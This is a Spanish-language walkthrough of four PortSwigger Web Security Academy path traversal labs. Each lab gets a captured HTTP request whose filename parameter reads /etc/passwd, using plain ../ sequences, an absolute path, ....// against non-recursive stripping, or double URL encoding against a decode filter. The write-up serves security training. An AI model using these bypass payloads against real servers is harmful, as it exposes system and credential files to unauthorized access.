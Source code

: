 # File path traversal, simple case

Para este laboratorio es el caso mas simple se ponen los puntos denotando un directorio atras en donde la web cargue un archivo y te muestra el 
/etc/passwd

```
GET /image?filename=../../../../../../etc/passwd HTTP/1.1
Host: 0a8200be041b466cc0f46aff00e000d3.web-security-academy.net
Cookie: session=wsnVR8iCU7MURckDcKT43ZatvLyTmC6e
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8200be041b466cc0f46aff00e000d3.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```

# File path traversal, traversal sequences blocked with absolute path bypass

Para este laboratorio los path absolutos estan bloqueados asi que intentamos poner el path directamente y funciona:

```
GET /image?filename=/etc/passwd HTTP/1.1
Host: 0a14004104e94cd0c06a7f3100620012.web-security-academy.net
Cookie: session=OPMimRA2dbPLCe0heGzelqwfgJ8s4CWx
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a14004104e94cd0c06a7f3100620012.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```
# File path traversal, traversal sequences stripped non-recursively

Para este laboratorio se tiene que poner 2 veces los caracteres tanto puntos como / 

```
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
Host: 0ae3005404acb0eec0e63efc007c009f.web-security-academy.net
Cookie: session=kuMONCyHoP9LldWOdczOPBZjRcUTGjs8
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ae3005404acb0eec0e63efc007c009f.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close


```

# File path traversal, traversal sequences stripped with superfluous URL-decode

Lo que hay que recuperar de este laboratorio es que intenta defenderse del ataque con url decode entonces si nosotros url encodeamos 2 veces al momento que
lo decodea queda encodeado de la primera y como no ve el caracter que no le gusta y entiende el url encode lo deja pasar.

URL encode para /

%2f

De nuevo URl encode

%25%32%66


```
GET /image?filename=..%25%32%66..%25%32%66..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd HTTP/1.1
Host: 0ab700cd047391d4c0072ea7003200dd.web-security-academy.net
Cookie: session=h6z4MtekU5ukDabbw2UqHakljBB2lBez
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ab700cd047391d4c0072ea7003200dd.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```
